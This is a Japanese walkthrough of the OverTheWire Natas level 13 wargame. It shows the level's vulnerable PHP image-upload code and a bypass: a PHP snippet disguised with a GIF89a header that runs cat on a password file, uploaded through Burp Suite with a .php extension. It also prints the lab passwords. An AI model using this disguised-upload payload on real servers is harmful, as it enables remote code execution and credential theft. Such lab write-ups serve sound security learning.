 # Natas13
```
Username: natas13
Password: trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
URL:      http://natas13.natas.labs.overthewire.org
```
Natas12と同じに見えるが、`For security reasons, we now only accept image files!`と、JPEG以外のファイルはアップロードできなくなってしまった。  

とりあえず`View sourcecode`
```
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
```

```
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```
ここの部分でファイルの先頭バイトを読み、ファイルがJPEGかどうかを判定している。  

[exif_imagetype公式マニュアル](https://www.php.net/manual/ja/function.exif-imagetype.php)

なので、phpのコードの先頭に画像の先頭バイトを載せて偽装すれば良い

```
GIF89a
<?php
passthru('cat /etc/natas_webpass/natas14');
?>
```
なぜかJPEGの先頭バイトであるFF D8が使えなかったので[このサイト](https://qiita.com/papillon/items/6904437e4c98e3783eb3)を参考にGIF89aを先頭に追加する。

そして、Level12と同じようにBurp SuiteでInterceptして、書き換えられたファイル名を元のファイル名に戻し、Forwardする。

表示されたリンクをクリックして実行させれば答えが得られる。

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```